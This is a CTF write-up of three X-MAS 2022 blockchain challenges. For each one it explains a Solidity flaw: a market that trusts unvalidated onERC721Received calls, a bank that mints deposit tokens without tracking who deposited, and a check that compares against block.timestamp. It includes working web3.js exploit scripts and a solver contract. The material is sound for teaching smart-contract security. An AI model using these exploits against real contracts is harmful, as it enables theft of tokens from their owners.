#### x-mas2022/blockchain/*
# The Triple Blockchain Writeup
by Arc'blroth

<p align="center">
	<br>
	<i>famous last words</i>
</p>
<br>

Though I've attempted a couple of blockchain challenges in previous CTFs (see: Buckeye2022/Nile), this CTF has been the first where I've actually gotten a flag! All-in-all, these three challenges have taught me a lot about how the Ethereum blockchain _actually_ works at a binary level, and how a smart contract really is just the world's most complicated way to run bugs on other people's computers.

## But First, a Word From Our Sponsors

can we all take a second to appreciate how cute Remi is


## 2. Cookie Market

> **Hint!** Retrieve the OG cookie to get the flag!

On the assumption that another teammate was already working on the first blockchain challenge, I started by tackling the second blockchain challenge. Cookie Market gives us two files to work with: an ERC721 contract titled [`cookie`](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/cookie-market/public/contracts/cookie.sol) and an ERC721Reciever contract called [`CookieMarket`](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/cookie-market/public/contracts/CookieMarket.sol).

First of all, what even *is* ERC721? A quick google search brings up https://erc721.org/, which reveals that it's the protocol behind NFTs on the Ethereum blockchain. OpenZepplin provides an implementation for both [`IERC721`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/IERC721.sol) and [`IERC721Receiver`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/IERC721Receiver.sol), which I'll reference later on.

> Note: To get VSCode and Remix IDE to properly resolve types on Cookie Market's contracts, I had to replace the given contracts' import statements with fully qualified paths:
> ```sh
> npm i @openzeppelin/contracts
> ```
> ```diff
> - import "./IERC721.sol";
> + import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
> ```

Looking at the source code (having never worked with Solidity before), one of the first things I found interesting were the lines

```solidity
// remove the sellOrder from the sellOrders array
sellOrders[i] = sellOrders[sellOrders.length - 1];
sellOrders.pop();
```

which after a minute of thinking *does* in fact remove an element from an array. This is [apparently](https://stackoverflow.com/a/73240396) a common idiom in Solidity code, even though it's not the array deletion solution you typically see.

### A Failed Expedition

At this point I didn't see any major vulnerabilities in the source code, so I decided to attack the problem from another angle and check out what the blockchain looked like instead.



Wait what? A setup contract? That wasn't in the source code we were given!

> Note to X-MAS Organizers: I found the 30-minute timeout to be pretty annoying during these challenges, since debugging my code often took a good chunk of time out of those 30 minutes and Metamask likes to stop working if the RPC suddenly disappears into the void. Maybe increase the timeout to an hour for next year?

In BuckeyeCTF, the blockchain challenges were hosted on the Goerli testnet, meaning that one could use a standard blockchain explorer [like Etherscan](https://etherscan.io/) to peek at contracts. But with a custom RPC endpoint, we'll have to deploy our own blockchain explorer instead.

```sh
$ git clone https://github.com/xops/expedition.git
$ cd expedition
$ npm install
$ npm start
```



Uhhh... what?



I guess Expedition really doesn't like X-MAS's custom RPC endpoint! There goes my nice GUI tools :sob: At this point, rather than spend more time installing a different blockchain explorer, I decided to skip directly to the last resort:

### Reading the Ethereum JSON-RPC Docs

Actually, I'm not sure why I'm complaining - the [JSON-RPC](https://ethereum.org/en/developers/docs/apis/json-rpc/) docs are not only comprehensive, but also come with FREE EXAMPLES!

A quick ctrl+f on the page brought me to `eth_getCode`, which is exactly what we need to nab a contract off of the blockchain!


```sh
RPC='http://challs.htsp.ro:9003/3a4b8228-8d65-46fc-9b94-52a50fb89043'
SETUP="0x01c72C82b1d4cD5c1053424FA1dD9ce6fcA6Ff48"

curl $RPC -X POST -H 'content-type: application/json' --data-raw "{\"jsonrpc\":\"2.0\",\"id\":\"1\",\"method\":\"eth_getCode\",\"params\":[\"$SETUP\", \"latest\"]}"
```

```
{"jsonrpc":"2.0","id":"1","result":"0x6080604052..."}
```

Decompiling the resulting contract reveals that it contains 3 methods, `isSolved()`, `cookie()`, and `0x827750d7`,  which appears to invoke the same code path as `cookie()` with different arguments:



How do we figure out what the last method is? By reading the docs, of course! From the [Solidity ABI Specification](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html#function-selector), we learn that



Thus, with a small amount of Critical Thinking&trade;
```js
> web3.eth.abi.encodeFunctionSignature("cookieMarket()") 
< "0x827750d7"
```

we can deduce that the last method was originally named `cookieMarket()`. From context clues, it seems that the methods `cookie()` and `cookieMarket()` give the address of their respective contracts, which we do in fact need to implement our solution.

> Note: When I first discovered this setup contract, I wondered if you could literally just deploy a second contract with `function isSolved() external returns(boolean) { return true; }` and politely ask for the flag. [According](https://discord.com/channels/519974854485737483/911608820709593090/1055388054099079218) to diff#9369 from the X-MAS discord, that unintended solution _does_ actually work! (concern)

There's two ways to read the values of `cookie` and `cookieMarket` - execute a smart contract call, or since I already have curl in my terminal history



```sh
# get cookie address
> curl $RPC -X POST -H 'content-type: application/json' --data-raw "{\"jsonrpc\":\"2.0\",\"id\":\"1\",\"method\":\"eth_getStorageAt\",\"params\":[\"$SETUP\", \"0\", \"latest\"]}"
< {"jsonrpc":"2.0","id":"1","result":"0x000000000000000000000000a51eeb96e2275e7e2d0980a87535be3989912fc3"}
# (same thing for getting the market address, except with the storage slot set to 1)
```

...it turns out we can just directly read from the blockchain!

### Reflecting Everything

To learn how to use this newfound power, I took a trip back to the Solidity docs on [Storage Layout](https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html). A tl;dr of Solidity's storage layout is that:

- a contract's storage is a (sparse) array of uint256 slots
- "value types", or any plain data that isn't dynamic, are stored as compactly as possible into consecutive slots of that array, with automatic data packing
	- the first item in storage is lower-aligned
	- elements of a struct are internally stored with the same packing rules, but the next value in storage must take up a new slot
- arrays are stored as
	- 1 slot in consecutive order holding a length and possibly the full array contents if the array is small enough
	-  `n` slots starting at `keccak256(slot)`
- and mappings are stored as
	- 1 slot in consecutive order initialized to 0
	- 1 slot per key-value pair at `keccak256(concat(key, slot))`, where both key and slot are left-padded to 32 bytes

<br>

After looking through the source code again, I concluded that
- there didn't seem to be any re-entrancy vulnerabilities with the fallback function call inside `executeOrder`
- though the contract used `transferFrom` instead of `safeTransferFrom`, there wasn't anything exploitable

and thus there was likely no exploit that involved minting my own cookie and using it on the market. Wait, who owned Cookie Zero anyways?

```solidity
contract ERC721 is Context, ERC165, IERC721, IERC721Metadata {
    // Token name
    string private _name;

    // Token symbol
    string private _symbol;

    // Mapping from token ID to owner address
    mapping(uint256 => address) private _owners;
```

From the `ERC721` contract which `Cookie` derives from, we know that the third slot in storage should include the map of who owns every cookie in existence. From the `cookie` contract, we know that the first cookie must have had an id of 0:

```solidity
constructor(){
	cookieIDX = 0;
}
	
function mintcookie() external {
	require(cookieIDX < 10);
	_mint(msg.sender, cookieIDX);
	cookieIDX += 1;
}
```

Therefore,
```js
> web3.utils.sha3("0x" + "0000000000000000000000000000000000000000000000000000000000000000" + "0000000000000000000000000000000000000000000000000000000000000002", {"encoding": "hex"})
< "0xac33ff75c19e70fe83507db0d683fd3465c996598dc972688b7ace676c89077b"
```

```sh
> curl $RPC -X POST -H 'content-type: application/json' --data-raw "{\"jsonrpc\":\"2.0\",\"id\":\"1\",\"method\":\"eth_getStorageAt\",\"params\":[\"$COOKIE\", \"0xac33ff75c19e70fe83507db0d683fd3465c996598dc972688b7ace676c89077b\", \"latest\"]}"
< {"jsonrpc":"2.0","id":"1","result":"0x000000000000000000000000247ae6dfb98da2d95ac2417e2bcfd16e38533b4c"}
```

Wait a minute. Wasn't that the address of the market?

Suddenly, I had an eureka moment.

### Stealing Cookie Zero

```solidity
// mapping that handles ownership of the cookies within the CookieMarket.
mapping(uint256 => address) public canRedeemcookie;
```
```solidity
// -- snip --

/**
	@dev Function to retrieve an cookie from the market.

	@param _idx The index of the cookie in the market.
*/
function redeemcookies(uint256 _idx) external {

	// check if sender can redeem the cookie
	require(
		canRedeemcookie[_idx] == msg.sender,
		"err: msg.sender != owner(cookie)"
	);

	// approve the cookie transfer.
	cookie.approve(
		msg.sender, 
		_idx
	);

	// transfer the ownership of the cookie.
	cookie.transferFrom(
		address(this), 
		msg.sender, 
		_idx
	);

	// remove the cookie _idx from the canRedeemcookie mapping
	delete canRedeemcookie[_idx];
}

// -- snip --
```
```solidity
/**
	@dev Inherited from IERC721Receiver.
*/
function onERC721Received(
	address,
	address _from,
	uint256 _tokenId,
	bytes calldata
) external override returns (bytes4) {

	// we have received an cookie from its owner; mark that in the redeem mapping
	canRedeemcookie[_tokenId] = _from;

	return this.onERC721Received.selector; 
}
```

Since the market already owns Cookie Zero, the exploit-free ERC721 will still let the market transfer its cookie to anyone who asks. Looking over the `CookieMarket` contract again, I noticed that `onERC721Received` didn't validate any of its arguments. Thus we could convince the CookieMarket that we were the rightful owner of Cookie Zero by calling `onERC721Recieved`, and then call `reedeemcookies()` afterwards to pilfer the cookie. Problem solved!

> *\*insert approximately an hour of wrestling with metamask\**

> __Notes on Metamask__
> - In order to for Metamask to let you add a network, you **must** provide a currency symbol. The warning about chain id 1 being used for the mainnet can be safely ignored. (They should probably improve the UI here!)
> - To import an account, click the avatar circle and select Import Account, then paste the private key from the challenge netcat output.

Going back to the JSON-RPC docs, we can invoke a function on the blockchain using `eth_sendTransaction` (not to be confused with `eth_call` - I'll discover the difference between these two functions in a couple of subheaders). Some badly written web3.js code later and we have our solution:

```js
(async () => {
    let imp = document.createElement("script")
    imp.src = "https://cdn.jsdelivr.net/npm/web3@latest/dist/web3.min.js"
    document.body.appendChild(imp)

    const accounts = await ethereum.request({ method: 'eth_requestAccounts' });
    const account = accounts[0];

    window.web3 = new Web3(ethereum);

    const marketContract = "0xbFAaFbd60895637b913E7a8CaBEb46bBe0E490Dc"

    // call onERC721Recieved(account, account, 0, 0x00)
    let payload = web3.eth.abi.encodeFunctionSignature("onERC721Received(address,address,uint256,bytes)").substring(2)
    payload += "000000000000000000000000" + account
    payload += "000000000000000000000000" + account
    // nab cookie #0
    payload += "0000000000000000000000000000000000000000000000000000000000000000"
    // `bytes` are encoded as an offset to extra data after all static parameters
    // this declares a byte array at offset 0x80 (= 4 * 32)
    // the first slot at offset 0x80 its its length, which is in this case is "1"
    // the second slot is its first and only element, which the EVM will initialize to 0
    payload += "0000000000000000000000000000000000000000000000000000000000000080"
    payload += "0000000000000000000000000000000000000000000000000000000000000001"

    let transactionParameters = {
        nonce: '0x00',
        to: marketContract,
        from: account,
        data: payload,
        chainId: '0x1',Z
    };
    
    await ethereum.request({
        method: 'eth_sendTransaction',
        params: [transactionParameters],
    })
    .then(result => {
      console.log("transaction succeeded!")
      console.log(result)
    })
    .catch(err => {
        console.error("transaction failed!")
        console.error(err)
    });

    // call redeemcookies(0)
    payload = web3.eth.abi.encodeFunctionSignature("redeemcookies(uint256)").substring(2)
    payload += "0000000000000000000000000000000000000000000000000000000000000000"

    transactionParameters = {
        nonce: '0x00',
        to: marketContract,
        from: account,
        data: payload,
        chainId: '0x1',
    };
    
    await ethereum.request({
        method: 'eth_sendTransaction',
        params: [transactionParameters],
    })
    .then(result => {
      console.log("transaction succeeded!")
      console.log(result)
    })
    .catch(err => {
        console.error("transaction failed!")
        console.error(err)
    });
})()
```


One down, two to go.

## 3. Bread Bank

> **POV:** You are the bank robbers! Get all the Pony Tokens!

This time, we're given three contracts - [`PonyToken`](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/bread-bank/public/contracts/PonyToken.sol), [`BankPairERC20`](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/bread-bank/public/contracts/BankPairERC20.sol), and [`BreadBank`](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/bread-bank/public/contracts/BreadBank.sol). `PonyToken` and `BankPairERC20` are both [ERC20](https://docs.openzeppelin.com/contracts/4.x/erc20) contracts, which means that they implement _fungible_ tokens (ie every token is functionally identical to each other, like real-world pennies).

Taking a look at the `BreadBank` contract, I almost immediately noticed that


```solidity
// @dev Allows a user to deposit the ERC20 underlying token into the bank.
function createDepositToken(ERC20 _underlying, uint256 _amount) public returns(BankPairERC20){
	// Assure _underlying is not the BANK token.
	require(address(_underlying) != address(this), "BreadBank: Cannot deposit BANK token.");

	// Assure enough tokens have been transferred to the bank.
	require(_underlying.balanceOf(address(this)) >= _amount, "BreadBank: Not enough tokens have been deposited.");

	// Create a new bankpair token for the user.
	BankPairERC20 depositToken = new BankPairERC20(_underlying, _amount);

	// Mint the deposit token to the user.
	depositToken.mint(msg.sender, _amount);

	// Return the deposit token.
	return depositToken;
}
```

Rather than create a `mapping` of clients to balances and checking from there, the `createDepositToken` function literally just checks if the bank as a whole has enough money to create a deposit for any client - which is definitely not how a real bank should work! Now that we've got our exploit, all we have to do is implement it.

Using the same strategy as in the last challenge, we can decompile the setup contract


and guess the function hashes to grab the locations of each contract:

```text
0x96f4fb88 -> storage[0] -> breadBank()
0x9127674f -> storage[1] -> ponyToken()
0x872c231f -> storage[2] -> bankPairToken()
```
```sh
BANK='0x5420757bad42640b809dfd4daf4a6b45298eca84'
PONY='0x4536b83f2a40484316e2795e72fd10058d492bcc'
```

> Note: `bankPairToken()` is not actually initialized by the setup contract and thus returns a value of null lmao

From there we can query `PonyToken` for how many ponies the bank owns:

```solidity
contract ERC20 is Context, IERC20, IERC20Metadata {
	mapping(address => uint256) private _balances;
```
```js
> web3.utils.sha3("0x" + "0000000000000000000000005420757bad42640b809dfd4daf4a6b45298eca84" + "0000000000000000000000000000000000000000000000000000000000000000")
< "0x3fa985816a7e3a6a599292523a102da68c4eb88484c1096203eedbda032934a2"
```
```sh
> curl $RPC -X POST -H 'content-type: application/json' --data-raw "{\"jsonrpc\":\"2.0\",\"id\":\"1\",\"method\":\"eth_getStorageAt\",\"params\":[\"$PONY\", \"0x3fa985816a7e3a6a599292523a102da68c4eb88484c1096203eedbda032934a2\", \"latest\"]}"
< {"jsonrpc":"2.0","id":"1","result":"0x000000000000000000000000000000000000000000000001158e460913d00000"}
```



...the bank owns **20 quadrillion ponies** !? This heist is turning into an animal rescue operation!

```js
// (at this point I wrote a set of helper functions for web3, which I plan to expand for future blockchain challenges - see https://github.com/pbrucla/apollo13)

(async () => {
    await summonWeb3()
    const account = await linkAccount()
	
    const bank = "0x5420757bad42640b809dfd4daf4a6b45298eca84";
    const pony = "0x4536b83f2a40484316e2795e72fd10058d492bcc";

    let token = await invoke(
        account,
        bank,
        "createDepositToken(address,uint256)",
        leftPad(pony.replace("0x", "")) + leftPad("1158e460913d00000"),
    )

    prompt("close this when the transaction succeeds")

    await invoke(
        account,
        bank,
        "redeem(address,uint256)",
        leftPad(token.replace("0x", "")) + leftPad("1158e460913d00000"),
    )
})()
```

> Note: In implementing the above code, I learned that `eth_call` and `eth_sendTransaction` actually do different things. `eth_call` runs an EVM call locally, without ever including that call into the consensus state, whilst `eth_sendTransaction` runs an EVM call for everyone on the blockchain. To implement the `invoke` helper function used above, we actually need both `eth_call` and `eth_sendTransaction` - `eth_call` gives us the return value of our EVM call, and `eth_sendTransaction` executes it:
> 
> ```js
> async function invoke(...) {
>    // -- snip --
>    
>    let returnVal = await ethereum.request({
>        method: 'eth_call',
>        params: [transactionParameters],
>    })
>    .then(result => {
>      console.log("expected result: " + result)
>      return result
>    })
>
>    transactionParameters.chainId = chainId
>    await ethereum.request({
>        method: 'eth_sendTransaction',
>        params: [transactionParameters],
>    })
>    .then(result => {
>      console.log("transaction succeeded, block " + result)
>    })
>
>    return returnVal
>  ```
>  
> This does in fact mean that we get a return value from our function call before it has actually been "executed", which feels incredibly cursed!


And that's 20 quadrillion ponies successfully stolen! Which leaves us with the final (and by final I mean first) challenge:

## 1. Blocker

Blocker consists of the same setup contract template as before and a [single given contract](https://gitlab.com/hecarii-tuica-si-paunii/x-mas-ctf-2022-challenges/-/blob/main/blockchain/blocker/public/contracts/Blocker.sol):

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.17;

contract Blocker {

    bool public solved = false;
    uint256 public current_timestamp;

    function _getPreviousTimestamp() internal returns (uint256) {  
        current_timestamp = block.timestamp;
        return block.timestamp;
    }
    
    function solve(uint256 _guess) public {
        require(_guess == _getPreviousTimestamp());
        solved = true;
    }
}
```

A couple of my other teammates had previously discussed performing a [Block Timestamp Manipulation](https://solidity-by-example.org/hacks/block-timestamp-manipulation/) attack on this contract, in which a miner with sufficient mining power can adjust the `block.timestamp` value of an EVM call within reasonable bounds. There's actually some pretty interesting [research](https://arxiv.org/abs/1902.07986) on how usage of `block.timestamp` as a source of randomness can lead to cheating in web3-backed casinos, for example.

Except none of that is actually related to the solution.

According to [the docs&trade;](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#block-and-transaction-properties) the value of `block.timestamp` shouldn't change within a single transaction call. Which means that we can very literally just deploy this contract

```solidity
// SPDX-License-Identifier: WTFPL
pragma solidity 0.8.17;

import "./Blocker.sol";

contract Solution {
    Blocker blocker;

    constructor() {
        blocker = Blocker(0xd6Bdc492cbC107CA03349856D5B133F85fE31AEe);
    }

    function solve() external {
        blocker.solve(block.timestamp);
    }
}
```

to solve this challenge, lmao.

### Okay But How Do You Actually Deploy A Contract

Unfortunately for Remi,



Remix.IDE really doesn't like X-MAS's custom RPC endpoint (I'm sensing a pattern here). It looks like we'll have to deploy the contract *manually*!

From Remix.IDE we can click on the Copy Bytecode button to get the raw hex of our contract:







We can then run `eth_sendTransaction` to deploy the contract:

```js
async function deploy(account, contract, chainId = '0x1') {
    let transactionParameters = {
        nonce: '0x00',
        from: account,
        data: contract,
        chainId: chainId,
    };

    await ethereum.request({
        method: 'eth_sendTransaction',
        params: [transactionParameters],
    })
    .then(result => {
      console.log("transaction succeeded, block " + result)
    })
}

(async () => {
    await summonWeb3()
    const account = await linkAccount()

    await deploy(
        account,
        "6080604052348015...",
    )

    let contract = prompt("call eth_getTransactionReceipt and gimme me the contract pls")

    await invoke(
        account,
        contract,
        "solve()",
        "",
    )
})()

```

and then run `eth_getTransactionRecipt` to grab the contract address to pass back to the above script:

```sh
> curl $RPC -X POST -H 'content-type: application/json' --data-raw "{\"jsonrpc\":\"2.0\",\"id\":\"1\",\"method\":\"eth_getTransactionReceipt\",\"params\":[\"0x3d4fa005723d90cb58d0fa6780b57735bffde58befc0c9d95bb40e2d01461134\"]}"
< {"jsonrpc":"2.0","id":"1","result":{"transactionHash":"0x3d4fa005723d90cb58d0fa6780b57735bffde58befc0c9d95bb40e2d01461134","transactionIndex":"0x0","blockHash":"0xbfafb12c309489226945e9e9aaefef7b3758a07c377b1618157f2304b15cdd21","blockNumber":"0xf7f581","from":"0x1b72f1958bc97d1feae400cc4eeaaf24ec797a17","to":null,"cumulativeGasUsed":"0x2229a","gasUsed":"0x2229a","contractAddress":"0xa6201ef5df2e8dbc8c34405a865cb08ce6050256","logs":[],"status":"0x1","logsBloom":"0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000","effectiveGasPrice":"0x59682f00"}}
```


And that's a self-clear of X-MAS 2022 Blockchain! Woohoo!

> Note: apparently this exact solution did _not_ work for some other people - I might have gotten lucky on the first try? Eh, as long as I have the flag, if it works it works!
